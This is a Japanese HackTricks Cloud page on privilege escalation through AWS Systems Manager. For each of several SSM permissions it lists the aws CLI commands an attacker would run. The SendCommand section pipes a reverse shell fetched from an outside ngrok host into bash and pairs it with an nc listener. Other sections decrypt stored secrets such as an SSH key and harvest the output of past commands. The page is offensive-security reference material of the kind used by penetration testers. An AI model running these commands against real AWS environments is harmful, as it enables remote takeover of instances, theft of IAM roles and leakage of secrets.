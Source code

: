 # AWS - SSM 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) をフォローする**
* **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## SSM

SSMに関する詳細情報は次を参照してください:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 権限を持つ攻撃者は、Amazon SSMエージェントを実行しているインスタンスで **コマンドを実行** し、その中で実行されている **IAMロールを侵害** することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的影響:** SSM エージェントが実行されているインスタンスにアタッチされている EC2 IAM ロールへの直接的な昇格。

### `ssm:StartSession`

**`ssm:StartSession`** 権限を持つ攻撃者は、Amazon SSM エージェントが実行されているインスタンスで SSH のようなセッションを開始し、その中で実行されている IAM ロールを侵害できます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin** がインストールされている必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** 実行中のインスタンスにアタッチされているEC2 IAMロールへの直接権限昇格が可能になります。SSMエージェントが実行されている場合。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`が有効**な状態で実行されると、十分な権限を持つユーザーは`ecs execute-command`を使用してコンテナ内でコマンドを実行できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは、"exec"コマンドを開始するデバイスとSSMセッションマネージャーを介してターゲットコンテナ間に安全なチャネルを作成することで行われます。\
したがって、`ssm:StartSession`権限を持つユーザーは、そのオプションが有効になっているECSタスク内でシェルを取得できます。単に次のコマンドを実行します:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**潜在的影響:** `ExecuteCommand` が有効になっている実行中のタスクにアタッチされた `ECS` IAM ロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 権限を持つ攻撃者は、Amazon SSM エージェントが実行されているインスタンスで **SSH のようなセッションを再開** し、**切断された** SSM セッション状態で実行されている IAM ロールを **侵害** することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的影響:** SSM エージェントが実行されており、セッションが切断されている場合、実行中のインスタンスにアタッチされた EC2 IAM ロールへの直接的な権限昇格が可能です。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

上記の権限を持つ攻撃者は、**SSM パラメータ**をリストアップし、**平文で読み取る**ことができます。これらのパラメータには、SSH キーまたは API キーなどの**機密情報**が頻繁に含まれています。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的影響:** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストアップし、それらから**機密情報**を見つけることができるかもしれません。
```
aws ssm list-commands
```
**潜在的影響:** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリストアップし、生成された出力を読むことができ、**機密情報**を見つける可能性があります。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的影響:** コマンドラインの出力の中に機密情報を見つける。

### Codebuild

ビルド中のcodebuildプロジェクトに入るためにもSSMを使用できます:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
